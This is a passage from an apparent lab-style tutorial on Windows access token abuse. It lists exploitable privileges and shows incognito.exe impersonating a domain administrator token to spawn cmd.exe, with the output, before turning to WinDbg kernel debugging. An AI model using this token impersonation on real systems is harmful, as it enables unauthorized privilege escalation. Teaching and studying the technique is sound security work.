 ```cmd-session
SeBackupPrivilege
SeRestorePrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeRelabelPrivilege
SeLoadDriverPrivilege

```

The ability to view and manipulate tokens depends on the level of access your exploit provides. SYSTEM is the ultimate authority when it comes to token stealing, as it grants unrestricted access to all tokens on the machine.

As an example, we can run incognito with the " `execute`" command to impersonate `LEGACY\administrator` token and specify the program path (e.g., `cmd.exe`) to launch with the privileges of the impersonated user.

```cmd-session
C:\> C:\Tools\incognito.exe execute -c "LEGACY\administrator" C:\Windows\system32\cmd.exe
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Searching for availability of requested token
[+] Requested token found
[+] Delegation token available
[*] Attempting to create new child process and communicate via anonymous pipe

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

```

Then we'll use WinDbg to inspect and analyze various data structures within the Windows operating system, such as access tokens, process structures (like EPROCESS), security descriptors (SD), and more. It allows us to view the contents of these structures, understand how they are organized. So before using WinDbg, we'll see how we can setup the local kernel debugging in order to view the kernel structures in Windows.

## WinDbg

[WinDbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/) is a powerful debugger tool from Microsoft primarily used for analyzing and debugging Windows applications, drivers, and the operating system itself. It provides a command-line interface and a graphical user interface, making it suitable for a wide range of debugging tasks, including kernel-mode and user-mode debugging.

### Setting Up Local Kernel-Mode Debugging

**Note:** Kernel debugging is already enabled on the target system.

Setting up local kernel-mode debugging involves configuring your system to allow debugging operations. Below is a step-by-step guide:
